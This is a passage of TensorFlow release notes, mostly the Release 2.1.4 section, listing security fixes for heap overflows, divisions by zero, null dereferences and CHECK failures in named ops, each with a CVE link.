*   Fixes a heap buffer overflow in `Conv2DBackpropFilter`
    ([CVE-2021-29540](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29540))
*   Fixes a heap buffer overflow in `StringNGrams`
    ([CVE-2021-29542](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29542))
*   Fixes a null pointer dereference in `StringNGrams`
    ([CVE-2021-29541](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29541))
*   Fixes a `CHECK`-fail in `QuantizeAndDequantizeV4Grad`
    ([CVE-2021-29544](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29544))
*   Fixes a `CHECK`-fail in `CTCGreedyDecoder`
    ([CVE-2021-29543](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29543))
*   Fixes a heap buffer overflow in `SparseTensorToCSRSparseMatrix`
    ([CVE-2021-29545](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29545))
*   Fixes a division by 0 in `QuantizedBiasAdd`
    ([CVE-2021-29546](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29546))
*   Fixes a heap out of bounds in `QuantizedBatchNormWithGlobalNormalization`
    ([CVE-2021-29547](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29547))
*   Fixes a division by 0 in `QuantizedBatchNormWithGlobalNormalization`
    ([CVE-2021-29548](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29548))
*   Fixes a division by 0 in `QuantizedAdd`
    ([CVE-2021-29549](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29549))
*   Fixes a division by 0 in `FractionalAvgPool`
    ([CVE-2021-29550](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29550))
*   Fixes an OOB read in `MatrixTriangularSolve`
    ([CVE-2021-29551](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29551))
*   Fixes a heap OOB in `QuantizeAndDequantizeV3`
    ([CVE-2021-29553](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29553))
*   Fixes a `CHECK`-failure in `UnsortedSegmentJoin`
    ([CVE-2021-29552](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29552))
*   Fixes a division by 0 in `DenseCountSparseOutput`
    ([CVE-2021-29554](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29554))
*   Fixes a division by 0 in `FusedBatchNorm`
    ([CVE-2021-29555](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29555))
*   Fixes a division by 0 in `SparseMatMul`
    ([CVE-2021-29557](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29557))
*   Fixes a division by 0 in `Reverse`
    ([CVE-2021-29556](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29556))
*   Fixes a heap buffer overflow in `SparseSplit`
    ([CVE-2021-29558](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29558))
*   Fixes a heap OOB access in unicode ops
    ([CVE-2021-29559](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29559))
*   Fixes a heap buffer overflow in `RaggedTensorToTensor`
    ([CVE-2021-29560](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29560))
*   Fixes a `CHECK`-fail in `LoadAndRemapMatrix`
    ([CVE-2021-29561](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29561))
*   Fixes a `CHECK`-fail in `tf.raw_ops.IRFFT`
    ([CVE-2021-29562](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29562))
*   Fixes a `CHECK`-fail in `tf.raw_ops.RFFT`
    ([CVE-2021-29563](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29563))
*   Fixes a null pointer dereference in `EditDistance`
    ([CVE-2021-29564](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29564))
*   Fixes a null pointer dereference in `SparseFillEmptyRows`
    ([CVE-2021-29565](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29565))
*   Fixes a heap OOB access in `Dilation2DBackpropInput`
    ([CVE-2021-29566](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29566))
*   Fixes a reference binding to null in `ParameterizedTruncatedNormal`
    ([CVE-2021-29568](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29568))
*   Fixes a set of vulnerabilities caused by lack of validation in
    `SparseDenseCwiseMul`
    ([CVE-2021-29567](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29567))
*   Fixes a heap out of bounds read in `MaxPoolGradWithArgmax`
    ([CVE-2021-29570](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29570))
*   Fixes a heap out of bounds read in `RequantizationRange`
    ([CVE-2021-29569](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29569))
*   Fixes a memory corruption in `DrawBoundingBoxesV2`
    ([CVE-2021-29571](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29571))
*   Fixes a reference binding to nullptr in `SdcaOptimizer`
    ([CVE-2021-29572](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29572))
*   Fixes an overflow and a denial of service in `tf.raw_ops.ReverseSequence`
    ([CVE-2021-29575](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29575))
*   Fixes a division by 0 in `MaxPoolGradWithArgmax`
    ([CVE-2021-29573](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29573))
*   Fixes an undefined behavior in `MaxPool3DGradGrad`
    ([CVE-2021-29574](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29574))
*   Fixes a heap buffer overflow in `MaxPool3DGradGrad`
    ([CVE-2021-29576](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29576))
*   Fixes a heap buffer overflow in `AvgPool3DGrad`
    ([CVE-2021-29577](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29577))
*   Fixes an undefined behavior and a `CHECK`-fail in `FractionalMaxPoolGrad`
    ([CVE-2021-29580](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29580))
*   Fixes a heap buffer overflow in `FractionalAvgPoolGrad`
    ([CVE-2021-29578](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29578))
*   Fixes a heap buffer overflow in `MaxPoolGrad`
    ([CVE-2021-29579](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29579))
*   Fixes a segfault in `CTCBeamSearchDecoder`
    ([CVE-2021-29581](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29581))
*   Fixes a heap OOB read in `tf.raw_ops.Dequantize`
    ([CVE-2021-29582](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29582))
*   Fixes a `CHECK`-fail due to integer overflow
    ([CVE-2021-29584](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29584))
*   Fixes a heap buffer overflow and undefined behavior in `FusedBatchNorm`
    ([CVE-2021-29583](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29583))
*   Fixes a division by zero in padding computation in TFLite
    ([CVE-2021-29585](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29585))
*   Fixes a division by zero in optimized pooling implementations in TFLite
    ([CVE-2021-29586](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29586))
*   Fixes a division by zero in TFLite's implementation of `SpaceToDepth`
    ([CVE-2021-29587](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29587))
*   Fixes a division by zero in TFLite's implementation of `GatherNd`
    ([CVE-2021-29589](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29589))
*   Fixes a division by zero in TFLite's implementation of `TransposeConv`
    ([CVE-2021-29588](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29588))
*   Fixes a heap OOB read in TFLite's implementation of `Minimum` or `Maximum`
    ([CVE-2021-29590](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29590))
*   Fixes a null pointer dereference in TFLite's `Reshape` operator
    ([CVE-2021-29592](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29592))
*   Fixes a stack overflow due to looping TFLite subgraph
    ([CVE-2021-29591](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29591))
*   Fixes a division by zero in TFLite's implementation of `DepthToSpace`
    ([CVE-2021-29595](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29595))
*   Fixes a division by zero in TFLite's convolution code
    ([CVE-2021-29594](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29594))
*   Fixes a division by zero in TFLite's implementation of `EmbeddingLookup`
    ([CVE-2021-29596](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29596))
*   Fixes a division by zero in TFLite's implementation of `BatchToSpaceNd`
    ([CVE-2021-29593](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29593))
*   Fixes a division by zero in TFLite's implementation of `SpaceToBatchNd`
    ([CVE-2021-29597](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29597))
*   Fixes a division by zero in TFLite's implementation of `SVDF`
    ([CVE-2021-29598](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29598))
*   Fixes a division by zero in TFLite's implementation of `Split`
    ([CVE-2021-29599](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29599))
*   Fixes a division by zero in TFLite's implementation of `OneHot`
    ([CVE-2021-29600](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29600))
*   Fixes a division by zero in TFLite's implementation of `DepthwiseConv`
    ([CVE-2021-29602](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29602))
*   Fixes a division by zero in TFLite's implementation of hashtable lookup
    ([CVE-2021-29604](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29604))
*   Fixes a integer overflow in TFLite concatentation
    ([CVE-2021-29601](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29601))
*   Fixes a integer overflow in TFLite memory allocation
    ([CVE-2021-29605](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29605))
*   Fixes a heap OOB write in TFLite
    ([CVE-2021-29603](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29603))
*   Fixes a heap OOB read in TFLite
    ([CVE-2021-29606](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29606))
*   Fixes a heap OOB and null pointer dereference in `RaggedTensorToTensor`
    ([CVE-2021-29608](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29608))
*   Fixes vulnerabilities caused by incomplete validation in `SparseAdd`
    ([CVE-2021-29609](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29609))
*   Fixes vulnerabilities caused by incomplete validation in
    `SparseSparseMinimum`
    ([CVE-2021-29607](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29607))
*   Fixes vulnerabilities caused by incomplete validation in `SparseReshape`
    ([CVE-2021-29611](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29611))
*   Fixes vulnerabilities caused by invalid validation in
    `QuantizeAndDequantizeV2`
    ([CVE-2021-29610](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29610))
*   Fixes a heap buffer overflow in `BandedTriangularSolve`
    ([CVE-2021-29612](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29612))
*   Fixes vulnerabilities caused by incomplete validation in
    `tf.raw_ops.CTCLoss`
    ([CVE-2021-29613](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29613))
*   Fixes an interpreter crash from vulnerabilities in `tf.io.decode_raw`
    ([CVE-2021-29614](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29614))
*   Fixes a stack overflow in `ParseAttrValue` with nested tensors
    ([CVE-2021-29615](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29615))
*   Fixes a null dereference in Grappler's `TrySimplify`
    ([CVE-2021-29616](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29616))
*   Fixes a crash in `tf.transpose` with complex inputs
    ([CVE-2021-29618](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29618))
*   Fixes a crash in `tf.strings.substr` due to `CHECK`-fail
    ([CVE-2021-29617](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29617))
*   Fixes a segfault in `tf.raw_ops.SparseCountSparseOutput`
    ([CVE-2021-29619](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29619))
*   Fixes a segfault in `tf.raw_ops.ImmutableConst`
    ([CVE-2021-29539](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29539))
*   Updates `curl` to `7.76.0` to handle
    [CVE-2020-8169](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8169),
    [CVE-2020-8177](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8177),
    [CVE-2020-8231](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8231),
    [CVE-2020-8284](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8284),
    [CVE-2020-8285](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8285)
    and
    [CVE-2020-8286](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8286).

# Release 2.1.4

This release introduces several vulnerability fixes:

*   Fixes a heap buffer overflow in `RaggedBinCount`
    ([CVE-2021-29512](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29512))
*   Fixes a heap out of bounds write in `RaggedBinCount`
    ([CVE-2021-29514](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29514))
*   Fixes a type confusion during tensor casts which leads to dereferencing null
    pointers
    ([CVE-2021-29513](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29513))
*   Fixes a reference binding to null pointer in `MatrixDiag*` ops
    ([CVE-2021-29515](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29515))
*   Fixes a null pointer dereference via invalid Ragged Tensors
    ([CVE-2021-29516](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29516))
*   Fixes a division by zero in `Conv3D`
    ([CVE-2021-29517](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29517))
*   Fixes vulnerabilities where session operations in eager mode lead to null
    pointer dereferences
    ([CVE-2021-29518](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29518))
*   Fixes a `CHECK`-fail in `SparseCross` caused by type confusion
    ([CVE-2021-29519](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29519))
*   Fixes a segfault in `SparseCountSparseOutput`
    ([CVE-2021-29521](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29521))
*   Fixes a heap buffer overflow in `Conv3DBackprop*`
    ([CVE-2021-29520](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29520))
*   Fixes a division by 0 in `Conv3DBackprop*`
    ([CVE-2021-29522](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29522))
*   Fixes a `CHECK`-fail in `AddManySparseToTensorsMap`
    ([CVE-2021-29523](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29523))
*   Fixes a division by 0 in `Conv2DBackpropFilter`
    ([CVE-2021-29524](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29524))
*   Fixes a division by 0 in `Conv2DBackpropInput`
    ([CVE-2021-29525](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29525))
*   Fixes a division by 0 in `Conv2D`
    ([CVE-2021-29526](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29526))
*   Fixes a division by 0 in `QuantizedConv2D`
    ([CVE-2021-29527](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29527))
*   Fixes a division by 0 in `QuantizedMul`
    ([CVE-2021-29528](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29528))
*   Fixes vulnerabilities caused by invalid validation in
    `SparseMatrixSparseCholesky`
    ([CVE-2021-29530](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29530))
*   Fixes a heap buffer overflow caused by rounding
    ([CVE-2021-29529](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29529))
*   Fixes a `CHECK`-fail in `tf.raw_ops.EncodePng`
    ([CVE-2021-29531](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29531))
*   Fixes a heap out of bounds read in `RaggedCross`
    ([CVE-2021-29532](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29532))
*   Fixes a `CHECK`-fail in `DrawBoundingBoxes`
    ([CVE-2021-29533](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29533))
*   Fixes a heap buffer overflow in `QuantizedMul`
    ([CVE-2021-29535](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29535))
*   Fixes a `CHECK`-fail in `SparseConcat`
    ([CVE-2021-29534](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29534))
*   Fixes a heap buffer overflow in `QuantizedResizeBilinear`
    ([CVE-2021-29537](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29537))
*   Fixes a heap buffer overflow in `QuantizedReshape`
    ([CVE-2021-29536](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29536))
*   Fixes a division by zero in `Conv2DBackpropFilter`
    ([CVE-2021-29538](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29538))
*   Fixes a heap buffer overflow in `Conv2DBackpropFilter`
    ([CVE-2021-29540](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29540))
*   Fixes a heap buffer overflow in `StringNGrams`
    ([CVE-2021-29542](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29542))
*   Fixes a null pointer dereference in `StringNGrams`
    ([CVE-2021-29541](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29541))
*   Fixes a `CHECK`-fail in `QuantizeAndDequantizeV4Grad`
    ([CVE-2021-29544](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29544))
*   Fixes a `CHECK`-fail in `CTCGreedyDecoder`
    ([CVE-2021-29543](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29543))
*   Fixes a heap buffer overflow in `SparseTensorToCSRSparseMatrix`
    ([CVE-2021-29545](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29545))
*   Fixes a division by 0 in `QuantizedBiasAdd`
    ([CVE-2021-29546](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29546))
*   Fixes a heap out of bounds in `QuantizedBatchNormWithGlobalNormalization`
    ([CVE-2021-29547](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29547))
*   Fixes a division by 0 in `QuantizedBatchNormWithGlobalNormalization`
    ([CVE-2021-29548](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29548))
*   Fixes a division by 0 in `QuantizedAdd`
    ([CVE-2021-29549](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29549))
*   Fixes a division by 0 in `FractionalAvgPool`
    ([CVE-2021-29550](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29550))
*   Fixes an OOB read in `MatrixTriangularSolve`
    ([CVE-2021-29551](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29551))
*   Fixes a heap OOB in `QuantizeAndDequantizeV3`
    ([CVE-2021-29553](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29553))
*   Fixes a `CHECK`-failure in `UnsortedSegmentJoin`
    ([CVE-2021-29552](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29552))
*   Fixes a division by 0 in `DenseCountSparseOutput`
    ([CVE-2021-29554](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29554))
*   Fixes a division by 0 in `FusedBatchNorm`
    ([CVE-2021-29555](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29555))
*   Fixes a division by 0 in `SparseMatMul`
    ([CVE-2021-29557](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29557))
*   Fixes a division by 0 in `Reverse`
    ([CVE-2021-29556](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29556))
*   Fixes a heap buffer overflow in `SparseSplit`
    ([CVE-2021-29558](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29558))
*   Fixes a heap OOB access in unicode ops
    ([CVE-2021-29559](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29559))
*   Fixes a heap buffer overflow in `RaggedTensorToTensor`
    ([CVE-2021-29560](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29560))
*   Fixes a `CHECK`-fail in `LoadAndRemapMatrix`
    ([CVE-2021-29561](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29561))
*   Fixes a `CHECK`-fail in `tf.raw_ops.IRFFT`
    ([CVE-2021-29562](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29562))
*   Fixes a `CHECK`-fail in `tf.raw_ops.RFFT`
    ([CVE-2021-29563](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29563))
*   Fixes a null pointer dereference in `EditDistance`
    ([CVE-2021-29564](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29564))
*   Fixes a null pointer dereference in `SparseFillEmptyRows`
    ([CVE-2021-29565](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29565))
*   Fixes a heap OOB access in `Dilation2DBackpropInput`
    ([CVE-2021-29566](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29566))
*   Fixes a reference binding to null in `ParameterizedTruncatedNormal`
    ([CVE-2021-29568](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29568))
*   Fixes a set of vulnerabilities caused by lack of validation in
    `SparseDenseCwiseMul`
    ([CVE-2021-29567](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29567))
*   Fixes a heap out of bounds read in `MaxPoolGradWithArgmax`
    ([CVE-2021-29570](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29570))
*   Fixes a heap out of bounds read in `RequantizationRange`
    ([CVE-2021-29569](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29569))
*   Fixes a memory corruption in `DrawBoundingBoxesV2`
    ([CVE-2021-29571](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29571))
*   Fixes a reference binding to nullptr in `SdcaOptimizer`
    ([CVE-2021-29572](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29572))
*   Fixes an overflow and a denial of service in `tf.raw_ops.ReverseSequence`
    ([CVE-2021-29575](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29575))
*   Fixes a division by 0 in `MaxPoolGradWithArgmax`
    ([CVE-2021-29573](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29573))
*   Fixes an undefined behavior in `MaxPool3DGradGrad`
    ([CVE-2021-29574](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29574))
*   Fixes a heap buffer overflow in `MaxPool3DGradGrad`
    ([CVE-2021-29576](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29576))
*   Fixes a heap buffer overflow in `AvgPool3DGrad`
    ([CVE-2021-29577](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29577))
*   Fixes an undefined behavior and a `CHECK`-fail in `FractionalMaxPoolGrad`
    ([CVE-2021-29580](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29580))
*   Fixes a heap buffer overflow in `FractionalAvgPoolGrad`
    ([CVE-2021-29578](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29578))
*   Fixes a heap buffer overflow in `MaxPoolGrad`
    ([CVE-2021-29579](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29579))
*   Fixes a segfault in `CTCBeamSearchDecoder`
    ([CVE-2021-29581](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29581))
*   Fixes a heap OOB read in `tf.raw_ops.Dequantize`
    ([CVE-2021-29582](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29582))
*   Fixes a `CHECK`-fail due to integer overflow
    ([CVE-2021-29584](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29584))
*   Fixes a heap buffer overflow and undefined behavior in `FusedBatchNorm`
    ([CVE-2021-29583](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29583))
*   Fixes a division by zero in padding computation in TFLite
    ([CVE-2021-29585](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29585))
*   Fixes a division by zero in optimized pooling implementations in TFLite
    ([CVE-2021-29586](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29586))
*   Fixes a division by zero in TFLite's implementation of `SpaceToDepth`
    ([CVE-2021-29587](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29587))
*   Fixes a division by zero in TFLite's implementation of `GatherNd`
    ([CVE-2021-29589](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29589))
*   Fixes a division by zero in TFLite's implementation of `TransposeConv`
    ([CVE-2021-29588](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29588))
*   Fixes a heap OOB read in TFLite's implementation of `Minimum` or `Maximum`
    ([CVE-2021-29590](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29590))
*   Fixes a null pointer dereference in TFLite's `Reshape` operator
    ([CVE-2021-29592](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29592))
*   Fixes a stack overflow due to looping TFLite subgraph
    ([CVE-2021-29591](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29591))
*   Fixes a division by zero in TFLite's implementation of `DepthToSpace`
    ([CVE-2021-29595](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29595))
*   Fixes a division by zero in TFLite's convolution code
    ([CVE-2021-29594](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29594))
*   Fixes a division by zero in TFLite's implementation of `EmbeddingLookup`
    ([CVE-2021-29596](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29596))
*   Fixes a division by zero in TFLite's implementation of `BatchToSpaceNd`
    ([CVE-2021-29593](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29593))
*   Fixes a division by zero in TFLite's implementation of `SpaceToBatchNd`
    ([CVE-2021-29597](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29597))
*   Fixes a division by zero in TFLite's implementation of `SVDF`
    ([CVE-2021-29598](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29598))
*   Fixes a division by zero in TFLite's implementation of `Split`
    ([CVE-2021-29599](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29599))
*   Fixes a division by zero in TFLite's implementation of `OneHot`
    ([CVE-2021-29600](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29600))
*   Fixes a division by zero in TFLite's implementation of `DepthwiseConv`
    ([CVE-2021-29602](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29602))
*   Fixes a division by zero in TFLite's implementation of hashtable lookup
    ([CVE-2021-29604](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29604))
*   Fixes a integer overflow in TFLite concatentation
    ([CVE-2021-29601](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29601))
*   Fixes a integer overflow in TFLite memory allocation
    ([CVE-2021-29605](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29605))
*   Fixes a heap OOB write in TFLite
    ([CVE-2021-29603](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29603))
*   Fixes a heap OOB read in TFLite
    ([CVE-2021-29606](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29606))
*   Fixes a heap OOB and null pointer dereference in `RaggedTensorToTensor`
    ([CVE-2021-29608](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29608))
*   Fixes vulnerabilities caused by incomplete validation in `SparseAdd`
    ([CVE-2021-29609](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29609))
*   Fixes vulnerabilities caused by incomplete validation in
    `SparseSparseMinimum`
    ([CVE-2021-29607](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29607))
*   Fixes vulnerabilities caused by incomplete validation in `SparseReshape`
    ([CVE-2021-29611](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29611))
*   Fixes vulnerabilities caused by invalid validation in
    `QuantizeAndDequantizeV2`
